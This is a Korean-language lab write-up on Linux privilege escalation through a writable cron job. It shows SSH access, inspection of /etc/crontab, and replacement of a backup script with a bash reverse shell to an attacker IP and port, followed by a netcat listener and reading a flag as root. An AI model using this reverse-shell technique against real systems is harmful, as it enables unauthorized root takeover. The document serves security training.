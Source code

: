 # Linux Privilege Escalation: Cron jobs
> crontab에 등록된 주기적 실행 스크립트의 내용을 악의적으로 수정하여 루트 권한 획득 및 플래그 탈취에 관련한 실습을 했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.233.141
- **공격 머신**: Kali Linux
- **사용 계정**: `karen`
- **권한 상승 방법**: `크론잡(Cronjob)`을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속
```bash
ssh karen@10.10.233.141
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

### 2.2 crontab 확인 및 취약점 식별
```bash
cat /etc/crontab
```
- 시스템에 등록된 주기 실행(cron) 항목을 확인하였다.

![crontab 확인](./screenshots/cat_crontab.png)

- `/home/karen/backup.sh`가 매분 실행되도록 등록되어 있었으며, 해당 파일은 karen 사용자에게 쓰기 권한이 부여되어 있었다. 이는 권한 상승의 기회를 의미한다.

---

### 2.3 악성 스크립트 작성

```bash
vi /home/karen/backup.sh
```
- 원래는 zip 명령어로 파일을 백업하는 스크립트였으나, 이를 리버스 쉘 코드로 변경하였다.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.63.129/7777 0>&1
```
- 이 명령어는 bash 셸을 통해 공격자의 머신(10.21.63.129)의 7777 포트로 TCP 연결을 시도하며, 입출력을 해당 연결에 리디렉션함으로써 원격 쉘을 확보할 수 있도록 한다.
- 변경 후 실행 권한을 추가하였다.

```bash
chmod +x /home/karen/backup.sh
```

![악성 스크립트 수정](./screenshots/modify_script.png)

---

### 2.4 리버스 쉘 대기 및 루트 쉘 획득

- Kali에서 아래와 같이 리버스 쉘 수신을 위해 포트 대기 상태를 설정하였다.

```bash
nc -lvnp 7777
```

- 1분 이내로 타겟 머신에서 루트 권한으로 크론잡이 실행되며, 공격자의 리스닝 포트로 접속이 이루어졌고 루트 권한의 쉘을 획득하였다.

- 루트 쉘 상태에서 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag5.txt
cat /home/ubuntu/flag5.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

## 느낀 점

실습을 통해 `crontab`에 등록된 스크립트가 쓰기 가능한 상태일 경우, **간단한 리버스 쉘 삽입만으로도 루트 권한을 탈취할 수 있다는 점**을 명확히 체감할 수 있었다. **주기적 실행 스크립트의 접근 제어 미흡은 치명적인 권한 상승 공격으로 이어질 수 있는 매우 위험한 보안 취약점**임을 확인하였다.

